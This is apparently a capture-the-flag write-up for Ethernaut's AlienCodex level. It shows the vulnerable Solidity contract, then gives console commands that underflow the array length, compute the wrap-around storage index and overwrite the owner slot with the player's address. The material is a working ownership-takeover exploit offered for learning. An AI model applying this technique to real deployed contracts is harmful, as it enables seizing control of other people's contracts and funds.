

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.5.0;

import '../helpers/Ownable-05.sol';

contract AlienCodex is Ownable {

  bool public contact;
  bytes32[] public codex;

  modifier contacted() {
    assert(contact);
    _;
  }
  
  function make_contact() public {
    contact = true;
  }

  function record(bytes32 _content) contacted public {
  	codex.push(_content);
  }

  function retract() contacted public {
    codex.length--;
  }

  function revise(uint i, bytes32 _content) contacted public {
    codex[i] = _content;
  }
}
```

<hr />

# Hack

The AlienCodex contract inherits the Ownable contract and on inspecting the contract.abi we can get that ownable has a state variable owner where owner of the AlienCodex is stored and slot allocation starts with the inherited contract from left to right and Owner is only the contract AlienCodex inherits and slot allocation starts from Owner.

To call any of the function, contact state variable must be true as assert(contact) must be passed. So, call the make_contract function first to pass the modifier.

```
await contract.make_contact()
```

Now the pass this level, we have to call retract function to change the array length to 2^256 because of the underflow as initial length of codex is 0 and it gives us the possibility to set value to the entire storage area of 2^256. This exploit works because of the fact that the EVM doesn't validate an array's ABI-encoded length vs its actual payload.

```
await contract.retract()
```

And, we have dynamic array of bytes32 and it can store dynamic number of values and we have to find codex index such that slot is 0 so we can override the owner address.

```
owner takes 20bytes of storage and boolean takes 1 bytes of storage and they can be stored in the same slot 0.

Slot for codex index can be calculated as: keccak256(p) + index * elementSize (how many slots they occupy) = keccak256(p) + index * 1
p is the slot where the length of the array is stored./s

Max number of values codex can store is (2 ^ 256 - keccak256(1) + 1)

Slot                        Data Stored
0                   owner and contact both are stored
1                   Length of codex dynamic array is stored
.                        .
.                        .
.                        .
keccak256(1)        codex[0]
keccak256(1) + 1    codex[1]
.                    .
.                    .
.                    .
2^256 - 1            codex[2^256 - 1 - uint(keccak256(1))]
2^256 - 1 + 1 = 0    codex[2^256 - uint(keccak256(1))]

```
So at codex index of (2^256 - uint(keccak256(1))) overflow occurs and when we set the value for it and the slot 0 is overwritten.

index to override  = 2 ^ 256 - uint(keccak256(1)) = web3.utils.toBN(2).pow(web3.utils.toBN(256)).sub(web3.utils.toBN(web3.utils.soliditySha3({value: 1, type: 'uint256'})))

data to override = web3.eth.abi.encodeParameter("address", player)

Now finally run these in console to change ownership.

```
const index = web3.utils.toBN(2).pow(web3.utils.toBN(256)).sub(web3.utils.toBN(web3.utils.soliditySha3({value: 1, type: 'uint256'})))
const data = web3.eth.abi.encodeParameter("address", player)
await contract.revise(index, data);
```

Note: codex.length-- reports error in the latest compiler versions as length being read-only and cannot be used to resize arrays.